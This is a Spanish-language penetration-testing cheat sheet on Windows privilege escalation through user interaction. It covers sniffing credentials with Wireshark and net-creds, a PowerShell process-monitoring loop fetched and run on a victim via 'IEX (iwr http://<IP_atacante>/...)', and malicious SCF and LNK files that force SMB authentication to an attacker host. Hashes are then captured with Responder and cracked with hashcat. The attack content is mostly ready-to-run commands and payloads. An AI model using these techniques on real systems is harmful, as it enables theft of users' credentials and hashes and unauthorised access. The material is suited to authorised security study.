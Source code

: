 # Windows Privilege Escalation – Interacting with Users

Los usuarios pueden ser aprovechados como vector de escalada de privilegios. Estas técnicas implican manipular su interacción con el sistema para obtener credenciales o hashes.

---

## 1. Captura de tráfico (Traffic Capture)

### Descripción
Si Wireshark o Npcap están instalados y mal configurados, es posible capturar tráfico en la máquina y robar credenciales en texto claro o hashes NTLM.

### Pasos

1. **Verificar instalación:**
   - Revisar si existe Wireshark/Npcap en `C:\Program Files\Wireshark\`.

2. **Capturar tráfico en la máquina comprometida:**
   ```powershell
   wireshark
   ```
   - Filtrar por protocolos: `ftp`, `http`, `smtp`.

3. **Analizar credenciales:**
   Ejemplo de tráfico FTP:
   ```text
   USER root
   PASS FTP_adm1n!
   ```

4. **Alternativa desde máquina atacante:**
   - Capturar con `tcpdump` o Wireshark.
   - Extraer credenciales automáticamente:
     ```bash
     sudo python3 net-creds.py -i eth0
     # o
     sudo python3 net-creds.py -p captura.pcap
     ```

---

## 2. Monitoreo de líneas de comandos de procesos

### Descripción
Detectar credenciales pasadas como argumentos en procesos (`net use`, tareas programadas).

### Pasos

1. **Script en PowerShell para monitorear:**
   ```powershell
   while($true) {
     $process = Get-WmiObject Win32_Process | Select-Object CommandLine
     Start-Sleep 1
     $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
     Compare-Object -ReferenceObject $process -DifferenceObject $process2
   }
   ```

2. **Ejecutar desde máquina víctima (cargado desde atacante):**
   ```powershell
   IEX (iwr 'http://<IP_atacante>/procmon.ps1')
   ```

3. **Ejemplo encontrado:**
   ```text
   net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
   ```

4. **Usar credenciales descubiertas:**
   ```powershell
   net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
   ```

---

# Archivos Maliciosos SCF y LNK - Guía Técnica

## 3. SCF malicioso en shares

### Descripción

Archivos `.scf` (Shell Command Files) manipulados que provocan autenticación SMB automática cuando un usuario accede a la carpeta que los contiene.

### Pasos de implementación

**1. Crear archivo malicioso:**

Guardar el siguiente contenido como `@Inventory.scf`:

```ini
[Shell]
Command=2
IconFile=\\<IP_atacante>\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

**2. Colocarlo en share accesible** donde los usuarios naveguen regularmente.

**3. Ejecutar Responder para capturar hashes:**

```bash
sudo responder -wrf -v -I tun0
```

**4. Crackear hash capturado con Hashcat:**

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

---

## 4. Archivos .lnk maliciosos (Server 2019+)

### Descripción

Alternativa a los archivos SCF cuando estos ya no funcionan en Windows Server 2019 y versiones posteriores. Los archivos `.lnk` (Link/Shortcut) mantienen la capacidad de forzar autenticación SMB.

### Pasos de implementación

**1. Generar archivo .lnk malicioso con PowerShell:**

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<IP_atacante>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browse to trigger auth request"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

**2. Colocar el archivo .lnk** en un share frecuentemente usado por usuarios.

**3. Capturar hashes** utilizando Responder o Inveigh.

---

## Notas técnicas sobre monitoreo de procesos

### Información capturada por el script

**Ejecutables y rutas completas:**

```
C:\Windows\System32\cmd.exe
C:\Tools\backup.exe
```

**Parámetros de línea de comandos (posibles credenciales):**

```
net use T: \\sql02\backups /user:dominio\sqlsvc My4dm1nP@s5w0Rd
sqlcmd -S sql01 -U sa -P Sup3rS3cret
```

**Procesos temporales y tareas programadas:**

```
C:\Windows\System32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}
```

### Por qué es útil

- Captura contraseñas en texto claro directamente de comandos
- Detecta actividad sensible (backups, conexiones SQL, montajes de red)
- Identifica software interno para posibles vectores de ataque adicionales
- Monitorea procesos que pueden ejecutarse brevemente

### Limitaciones

- **No captura entrada interactiva:** No muestra lo que el usuario escribe dentro de aplicaciones
- **Solo parámetros CLI:** Limitado a argumentos de línea de comandos, no datos en memoria
- **Requiere ejecución continua:** Debe mantenerse activo para no perder procesos de corta duración
